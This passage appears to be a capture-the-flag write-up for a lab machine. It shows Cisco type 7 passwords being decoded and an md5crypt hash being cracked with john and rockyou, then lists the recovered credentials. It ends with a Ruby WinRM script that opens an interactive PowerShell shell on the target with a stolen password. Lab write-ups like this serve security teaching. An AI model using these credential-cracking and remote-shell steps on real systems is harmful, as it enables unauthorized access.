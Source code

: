 We use [a cisco type 7 decrypter](https://github.com/theevilbit/ciscot7) to get
the `rout3r` and `admin` passwords.

    :::text
    python ciscot7.py -d -p 0242114B0E143F015F5D1E161713
    Decrypted password: $uperP@ssword
    python ciscot7.py -d -p 02375012182C1A1D751618034F36415408
    Decrypted password: Q4)sJu\Y8qz*A3?d

For the hashed password we use john with rockyou:

    :::text
    john hash -w=~/tools/password_lists/rockyou.txt
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    stealth1agent    (?)

We now have three potential users as well as three potential passwords. The
users:
  1. admin
  2. rout3r
  3. Hazard

The passwords:
  1. `$uperP@ssword`
  2. `Q4)sJu\Y8qz*A3?d`
  3. `stealth1agent`

We want to connect using the WinRM service. We can use
[evil winrm](https://github.com/Hackplayers/evil-winrm) as well as a simple
ruby script:

    :::ruby
    require 'winrm'

    conn = WinRM::Connection.new(
      endpoint: 'http://10.10.10.149:5985/wsman',
      user: 'rout3r',
      password: 'Q4)sJu\Y8qz*A3?d',
    )

    command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end
        puts "Exiting with code #{output.exitcode}"
    end
